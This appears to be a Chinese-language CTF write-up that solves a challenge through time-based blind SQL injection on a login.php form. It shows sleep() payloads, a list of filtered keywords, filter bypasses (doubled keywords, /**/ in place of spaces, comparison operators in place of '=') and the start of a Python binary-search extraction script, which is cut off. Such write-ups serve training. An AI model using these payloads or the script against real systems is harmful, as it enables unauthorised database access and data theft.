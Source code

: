 

## CTF知识问答

阴间题目100分不给flag。SQL注入，flag在数据库里。

经过测试，发现login.php存在SQL注入。

```php
username=-1'||sleep(1)%23&studentid=1&submit=%E6%8F%90%E4%BA%A4
```

可以延时1s，说明存在SQL注入。

再经过fuzz，发现至少过滤了这些：

```php
or
union
select
on
in
=
```

但是可以双写绕过。空格似乎没有过滤，但是有些词它是连着空格一起过滤的，因此不用空格，用`/**/`就可以减少麻烦。

等于号被过滤，拿大于号小于号绕过即可。

然后正常的SQL注入即可。

```php
username=-1'||if(ascii(substr(database(),1,1))<128,sleep(1),1)%23&studentid=1&submit=%E6%8F%90%E4%BA%A4  
会延时
username=-1'||if(ascii(substr(database(),1,1))<64,sleep(1),1)%23&studentid=1&submit=%E6%8F%90%E4%BA%A4
不延时
    
所以直接时间盲注，我没试能不能布尔注入。
```

写个python脚本：

```python
"""
Author:feng
"""
import requests
from time import *
url='http://c8966359-62e5-4f8b-baa5-ccc59388b22b.challenge.ctf.show:8080/login.php'


flag=''
for i in range(1,10000000):
    min=32
    max=128
    while 1:
        j=min+(max-min)//2
        if min==j:
            flag+=chr(j)
            print(flag)
            break

        #payload="-1'||if(ascii(substr(database(),{},1))<{},sleep(0.5),1)#".format(i,j)
        #payload="-1'||if(ascii(substr((seselectlect/**/group_coonncat(table_name)/**/from/**/iinnfoorrmatioonn_schema.tables/**/whewherere/**/table_schema/**/lilikeke/**/database()),{},1))<{},sleep(1),1)#".format(i,j)
```